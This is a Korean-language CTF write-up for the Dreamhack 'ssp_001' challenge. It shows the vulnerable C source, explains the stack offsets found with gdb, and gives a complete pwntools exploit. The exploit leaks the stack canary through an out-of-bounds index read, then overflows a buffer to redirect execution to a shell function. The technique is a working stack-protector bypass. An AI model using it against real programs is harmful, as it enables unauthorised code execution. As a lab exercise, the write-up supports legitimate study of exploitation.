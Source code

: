 ## ssp_001
---

```
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

<br>

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
}
void menu() {
    puts("[F]ill the box");
    puts("[P]rint the box");
    puts("[E]xit");
    printf("> ");
}
int main(int argc, char *argv[]) {
    unsigned char box[0x40] = {};
    char name[0x40] = {};
    char select[2] = {};
    int idx = 0, name_len = 0;
    initialize();
    while(1) {
        menu();
        read(0, select, 2);
        switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
    }
}
```

<br><br>

## Solution
---

gdb로 분석해보면 box에 값을 ebp-0x88부터 입력을 받는다.

카나리는 ebp-0x8에 위치하는 것을 gdb를 통해 확인할 수 있으므로 print_box 함수를 통해 0x80의 값을 확인해보면 카나리 값이 나올 것이다.

따라서 0x80은 128이므로 128부터 확인해보면 된다.

<br>

128을 입력값으로 넣어주면 카나리의 첫바이트인 널바이트가 나오는 것을 알 수 있다.

혹시 모르니 129를 입력해서 확인해보면 값이 나온다.

<br>

![image](https://user-images.githubusercontent.com/52172169/184857362-e5da245e-511d-4fb1-b5b6-8d5f9178df47.png)

<br>

카나리 값을 구한 다음엔 Exit에서 마무리를 지으면 된다.

Exit를 분석해보면 입력값이 ebp-0x48부터 입력을 받으므로 카나리가 있는 ebp-0x8까지의 오프셋은 총 0x40이다.

0x40은 10진수로 64이다. 

따라서 64만큼의 입력 + 카나리 4바이트 + 패딩 4바이트 + SFP 4바이트 + ret 4바이트(get_shell주소) 로 총 80바이트의 길이를 입력받게 해줘야 한다.

<br>

이제 Exploit 코드를 짜주면 되겠다.

<br>

```python
from pwn import *

#p = process('./ssp_001')
p = remote('host3.dreamhack.games',14588)

canary_value = b'0x'

def Get_Canary(index) :
    p.recvuntil(b'> ')
    p.sendline(b'P')
    p.recvuntil(b': ')
    p.sendline(index)
    p.recvuntil(b': ')

for i in ['131','130','129','128'] :
    Get_Canary(i)
    canary_value += p.recv(2)


canary = int(canary_value,16)

print("@ Canary : ", hex(canary))

get_shell_addr = p32(0x80486b9)


payload = b"A"*64 + p32(canary) + b"B"*8 + get_shell_addr

print(p.recvuntil(b'> ').decode('latin-1'))
p.sendline(b'E')

print(p.recvuntil(b': ').decode('latin-1'))
p.sendline(str(len(payload)))

print(p.recvuntil(b': ').decode('latin-1'))
p.send(payload)

p.interactive()
```
